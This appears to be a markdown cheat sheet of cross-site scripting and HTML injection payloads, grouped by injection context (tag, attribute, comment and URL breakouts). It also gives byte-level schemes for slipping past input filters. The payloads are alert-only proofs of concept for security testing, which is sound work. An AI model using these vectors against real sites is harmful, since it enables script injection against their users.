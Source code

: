 # Simple HTML Injection

## Simple Examples

### Tag Block Breakout
Use when input lands inside or between opening/closing of some tags like
title, style, script, iframe, noscript and textarea, respectively .
```html
</title><svg onload=alert(1)>
</style><svg onload=alert(1)>
</script><svg onload=alert(1)>
</iframe><svg onload=alert(1)>
</noscript><svg onload=alert(1)>
</textarea><svg onload=alert(1)>
```

### URL poison
```html
http://brutelogic.com.br/xss.php/”><svg onload=alert(document.domain)>
http://brutelogic.com.br/xss.php?a=<svg onload=alert(document.domain)>
#Input sometimes land into a javascript block (script tags), usually in the value of some variable of the code. But because the HTML tags has priority in the browser’s parsing, we can simple terminate the block and insert a new tag.
http://brutelogic.com.br/xss.php?c1=</script><svg onload=alert(1)>
```

### Attribute Breakout
Use when input lands inside an attribute’s value of an HTML tag or outside tag
except the ones described in the “Tag Block Breakout” case below.

```html
"><svg onload=alert(1)>
"><script>alert(1)</script>
```

### Comments Breakout
Use when input lands inside comments section (between <!-- and -->) of
HTML document.

```html
--><svg onload=alert(1)>
--><script>alert(1)</script>
```

## Semi-Complex Examples

### Inline HTML Injection
Use when input lands inside an attribute’s value of an HTML tag but that tag
can’t be terminated by greater than sign (>).

```html
"onmouseover="alert(1)
"onmouseover=alert(1)//
"autofocus onfocus="alert(1)
"autofocus onfocus=alert(1)//
http://brutelogic.com.br/xss.php?b1=”><svg onload=alert(1)>
```

### Vector Scheme Examples
The following schemes shows all chars and bytes allowed as separators or
valid syntax. “ENT” means HTML ENTITY and it means that any of the allowed
chars or bytes can be used in their HTML entity forms (string and numeric).

Notice the “javascript” word might have some bytes in between or not and all
of its characters can also be URL or HTML encoded.

#### Vector Scheme 1 (tag name + handler)
```html
<svg[1]onload[2]=[3]alert(1)[4]>
[1]: SPACE, +, /, %09, %0A, %0C,%0D, %20, %2F
[2]: SPACE, +, %09, %0A, %0C,%0D, %20
[3]: SPACE, +, ", ', %09, %0A, %0B, %0C,%0D, %20, %22, %27,
[4]: SPACE, +, ", ', %09, %0A, %0B, %0C,%0D, %20, %22, %27
```

#### Vector Scheme 2 (tag name + attribute + handler)
```html
<img[1]src[2]=[3]k[4]onerror[5]=[6]alert(1)[7]>
[1]: SPACE, +, /, %09, %0A, %0C,%0D, %20, %2F
[2]: SPACE, +, %09, %0A, %0C,%0D, %20
[3]: SPACE, +, ", ', %09, %0A, %0C,%0D, %20, %22, %27
[4]: SPACE, +, ", ', %09, %0A, %0C,%0D, %20, %22, %27
[5]: SPACE, +, %09, %0A, %0C,%0D, %20
[6]: SPACE, +, ", ', %09, %0A, %0B, %0C,%0D, %20, %22, %27
[7]: SPACE, +, ", ', %09, %0A, %0B, %0C,%0D, %20, %22, %27
```

#### Vector Scheme 3 (tag name + href|src|data|action|formaction)
The [?], [4] and [5] fields can only be used if [3] and [6] are single or double
quotes.

```html
<a[1]href[2]=[3]javas[?]cript[4]:[5]alert(1)[6]>
[1]: SPACE, +, /, %09, %0A, %0C,%0D, %20, %2F
[2]: SPACE, +, %09, %0A, %0C,%0D, %20
[3]: SPACE, +, ", ', [%01 - %0F], [%10 - %1F], %20, %22, %27, ENT
[?]: %09, %0A, %0D, ENT
[4]: %09, %0A, %0D, ENT
[5]: SPACE, +, %09, %0A, %0B, %0C,%0D, %20
[6]: SPACE, +, ", ', %09, %0A, %0B, %0C,%0D, %20, %22, %27 
```